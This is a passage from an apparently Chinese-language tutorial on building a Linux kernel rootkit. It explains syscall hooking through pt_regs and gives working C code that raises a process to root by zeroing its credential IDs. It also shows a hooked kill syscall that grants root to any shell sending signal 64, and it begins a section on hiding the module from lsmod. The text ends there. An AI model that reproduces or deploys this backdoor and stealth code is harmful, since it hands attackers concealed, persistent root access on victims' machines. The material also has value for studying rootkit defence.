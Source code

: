 `asmlinkage`是一个宏，告诉编译器在 CPU 堆栈上查找函数参数，而不是寄存器。众所周知，用户态程序调用syscall的时候，会下陷到内核态，此时会保存 CPU 堆栈中的所有寄存器（eax、ebx、ecx 等）。因此，从用户空间传递到内核空间的有关参数的信息都被保存在堆栈中，这也即是使用`asmlinkage`的原因

对于新的系统调用，存储在寄存器中的参数会先被复制到`pt_regs`结构体中，因此当我们编写hook函数的时候，需要先从这个结构体中获取对应的参数值

```c
//函数声明,hook_sys_openat我们自己实现的sys_openat函数
asmlinkage long hook_sys_openat(const struct pt_regs *);
```

此外由于内核空间和用户空间是隔离的，地址的映射并不互通，因此需要使用`copy_to_user`和`copy_from_user`进行数据的传输

## 提权

- `cred`是一个记录进程credentials信息的结构体，具体定义在`cred.c`头文件中

- `prepare_creds()`返回当前进程的`cred`结构
- `commit_creds()`将这个cred应用于当前进程，因此我们只需要对cred结构体进行修改即可实现提权

```c
void get_root(void)
{
    struct cred *newcreds;
    newcreds = prepare_creds();
    if (newcreds == NULL)
        return;
    newcreds->uid.val = newcreds->gid.val = 0;
    newcreds->euid.val = newcreds->egid.val = 0;
    newcreds->suid.val = newcreds->sgid.val = 0;
    newcreds->fsuid.val = newcreds->fsgid.val = 0;
    commit_creds(newcreds);
}
```

hook kill实现提权，当我们在shell中输入kill -64 \<num\>的时候会将shell提权到root，可以使用id命令验证这一点

```c
asmlinkage long hook_kill(const struct pt_regs *regs)
{
    pid_t pid = regs->di;
    int sig = regs->si;
    if (sig == 64)
    {
        printk(KERN_INFO " get_root ");
        get_root();
    }
    return orig_kill(regs);
}
```

## 模块隐藏

lsmod命令可以列出已安装的内核模块，rmmod可以删除。模块隐藏也即是让lsmod命令无法输出我们的模块

内核使用module结构体存储模块信息，可以看到module封装了list双向链表，下面的源码可以在`module.h`中找到
